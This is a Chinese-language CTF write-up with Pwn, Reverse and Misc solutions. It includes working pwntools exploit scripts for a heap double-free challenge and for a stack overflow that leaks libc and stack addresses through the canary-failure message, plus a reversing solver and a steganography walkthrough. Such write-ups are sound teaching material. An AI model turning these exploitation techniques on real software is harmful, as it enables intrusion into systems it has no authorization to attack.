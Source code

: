 # 2024-1-29

### Pwn

### 1

从题目看发现是一个堆题

![屏幕截图 2023-10-30 194235](images/1.png)

选择界面有五个功能

![屏幕截图 2023-10-30 194247](images/2)

开辟空间时候会同时开辟两个空间，用一个0x10大小的空间进行控制

![屏幕截图 2023-10-30 194332](images/3)

修改功能被删除了

![屏幕截图 2023-10-30 194429](images/4)

删除时会引发uaf和double free功能![屏幕截图 2023-10-30 194454](images/5)

最后输出功能会把两个空间同时输出

![屏幕截图 2023-10-30 200014](images/6)

在开始的函数中会将flag存入某块内存空间，我们可以通过double，free然后修改fastbin指向然后重新申请空间来获取flag所在空间，然后输出即可

```py
from pwn import *
context(os = 'linux', arch = 'amd64', log_level = 'debug')

io = process('./ones')
def create(size1,size2,content1,content2):
    io.sendlineafter('> Now please tell me what you want to do :',b'1')
    io.sendlineafter("> ba's length : ",size1)
    io.sendlineafter('> ba : ',content1)
    io.sendlineafter("> na's length : ", size2)
    io.sendlineafter('> na : ',content2)
def delete(number):
    io.sendlineafter('> Now please tell me what you want to do :', b'3')
    io.sendlineafter('> Banana ID : ',number)
def view(number):
    io.sendlineafter('> Now please tell me what you want to do :', b'4')
    io.sendlineafter('> SCP project ID : ',number)

create(b'80',b'80',b'aaaa',b'bbbb')
create(b'80',b'80',b'cccc',b'dddd')
delete(b'0')
delete(b'1')
delete(b'0')
create(b'80',b'80',p64(0x602098),b'bbbb')
#create(b'80',b'80',b'cccc',b'dddd')
#create(b'80',b'96',b' ',b' ')
#view(b'4')
gdb.attach(io)
io.interactive()
```

### 2

![屏幕截图 2023-09-17 203702](images/7)

使用IDA打开后我们可以看见该程序会把flag读入到栈上，然后使用gets来读入字符串与flag进行比较，这里就还会造成溢出。

![image-20230917205141621](images/8)

这里我们可以看到开启了canary，触发canary时会输出argv[0]处存储的地址所记载的字符串，我们可以将argv[0]的内容改为flag所在的地址。

![image-20230917211124166](images/9)

利用gdb调试测出读入的位置与argv[0]距离是0x128，将puts的got表地址写入argv[0]得到puts got表地址从而利用libcsearch获取对应libc，然后找到environ地址写入argv [0]输出其内容得到栈的地址，测出其与flag位置偏移为0x168即用stack_addr-0x168来得出flag所在栈的位置，写入argv[0]输出flag

```py
from pwn import *
from LibcSearcher import *

context(os = 'linux', arch = 'amd64', log_level = 'debug')
#io =remote('node4.buuoj.cn',27748)
io = process('./GUESS')
elf = ELF('./GUESS')
puts_got = elf.got['puts']
payload = b'a'*0x128 + p64(puts_got)
io.recvuntil('Please type your guessing flag')
io.sendline(payload)
puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
gdb.attach(io)
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
environ_addr = libc_base + libc.dump('__environ')
payload = b'a'*0x128 + p64(environ_addr)
io.recvuntil('Please type your guessing flag')
io.sendline(payload)
stack_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(stack_addr))
flag_addr = stack_addr - 0x168
payload = b'a'*0x128 + p64(flag_addr)
io.recvuntil('Please type your guessing flag')

io.sendline(payload)
io.interactive() 
```

## Reverse

### 1

运行程序，可以找到一些相关的字符串。

![屏幕截图 2023-12-15 213105](images/10)

这里正好有一对提示，可以判断这里就是相关检查点，可以看出来最后正确与否跟v4相关，所以要进入check2进行查看

![屏幕截图 2023-12-15 213450](images/11)

check2使用了ollvm混淆，我们根据返回值来找有效语句

![image-20231215214344381](images/12)

可以看见v11是否等于-528396247与返回值有关，那么D0g数组与sudoku数组的操作就决定了返回值，这里的操作是将两个数组对比，而D0g数组放的是v16数组

![image-20231215214601998](images/13)

而v16数组放的是我们输入的字符串-48

![image-20231215223809364](images/14)

![image-20231215223902748](images/15)

在check1中会对字符进行v运算，前后置换，前后对调

```py
sudo = '4693641762894685722843556137219876255986'
flag = ''
for i in range(len(sudo)):
    num = int(sudo[i]) + 48 + 20
    num = ((num & 0xF3) | (~num & 0xC))
    flag += chr(num)

new_flag = list(flag)
for j in range(0,len(new_flag),2):
    tmp = new_flag[j]
    new_flag[j] = new_flag[j+1]
    new_flag[j+1] = tmp

p = ''
for h in range(int(len(new_flag)/2),len(new_flag)):
    p+=new_flag[h]
for h in range(0,int(len(new_flag)/2)):
    p+=new_flag[h]
print(p)
```

## Misc

### 1

下载图片后发现是一只Capybara，利用winhex![capybara](images/16)进行查看

![屏幕截图 2023-09-11 144247](images/17)

发现有PK字样，怀疑有压缩包附在图像之后

![屏幕截图 2023-09-11 144557](images/18)

使用binwalk查看发现压缩包![屏幕截图 2023-09-11 144950](images/19)

使用foremost进行分离

![屏幕截图 2023-09-11 145008](images/20)

发现是一个音频文件

![屏幕截图 2023-09-11 145103](images/21.png)

用AUDIO进行查看发现是摩斯密码进行解密